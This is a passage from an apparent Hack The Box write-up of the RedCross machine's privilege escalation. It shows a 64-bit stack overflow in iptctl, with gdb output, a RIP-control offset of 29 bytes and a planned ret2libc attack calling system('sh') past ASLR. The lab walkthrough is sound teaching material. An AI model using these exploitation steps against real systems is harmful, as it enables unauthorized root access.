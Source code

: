     0016| 0x7fffffffde58 --> 0xa4162414146 ('FAAbA\n')
    0024| 0x7fffffffde60 --> 0x7fffffffdfd0 --> 0x200040000
    0032| 0x7fffffffde68 --> 0x7ffff7ffe730 --> 0x7ffff7fd3000 (jg     0x7ffff7fd3047)
    0040| 0x7fffffffde70 --> 0x0
    0048| 0x7fffffffde78 --> 0x7ffff7fdf3af (<_dl_lookup_symbol_x+335>:     add    rsp,0x30)
    0056| 0x7fffffffde80 --> 0x0
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    Stopped reason: SIGSEGV
    0x0000000000400b5e in interactive ()



In 64-bit, the bad address won't actually load into RIP, but I can find
the offset at the top of the stack, at RSP. I've marked it in the output
above with `<--`

Now I'll get the offset:



    gdb-peda$ pattern_offset A;AA
    A;AA found at offset: 29



Note, that is 29 beyond the "allow" I started my input with.

I can run again and give "allowAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB" as
input, and see that it crashes trying to pop BBBBBBBB into RIP.

#### Payload Strategy

Now I just need a payload to run with my control over RIP. Were this a
32-bit host, a simple ret2libc would be the obvious choice, as I've
recently shown in
[Frolic](/htb-frolic.md#privesc-www-data--root) and
[October](/htb-october.md#privesc-to-root). I'll take a
similar strategy here, but there's two things I'll need to do
differently for a 64-bit host.

First, in x64 parameters are passed to a function differently. In x86,
arguments are passed on that stack, so I could over write the return
pointer with the function I wanted to call, then the next word was the
exit address (or junk), and then the next word(s) were the arguments to
pass. In x64, the arguments are passed in registers. So to call
`system("sh")`, I need to get the address of the string "sh" into the
RDI register.

Second, ASLR uses a much larger address space in x64:



    penelope@redcross:/home/penelope$ ldd /opt/iptctl/iptctl | grep libc
    ldd /opt/iptctl/iptctl | grep libc
            libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f832410e000)
    penelope@redcross:/home/penelope$ ldd /opt/iptctl/iptctl | grep libc
    ldd /opt/iptctl/iptctl | grep libc
            libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f96ddd9f000)
    penelope@redcross:/home/penelope$ ldd /opt/iptctl/iptctl | grep libc
    ldd /opt/iptctl/iptctl | grep libc
            libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f81ef037000)
    penelope@redcross:/home/penelope$ ldd /opt/iptctl/iptctl | grep libc
    ldd /opt/iptctl/iptctl | grep libc
            libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fea7918b000)
    penelope@redcross:/home/penelope$ ldd /opt/iptctl/iptctl | grep libc
    ldd /opt/iptctl/iptctl | grep libc
            libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fd7999c1000)
    penelope@redcross:/home/penelope$ ldd /opt/iptctl/iptctl | grep libc
    ldd /opt/iptctl/iptctl | grep libc
            libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f7a548e8000)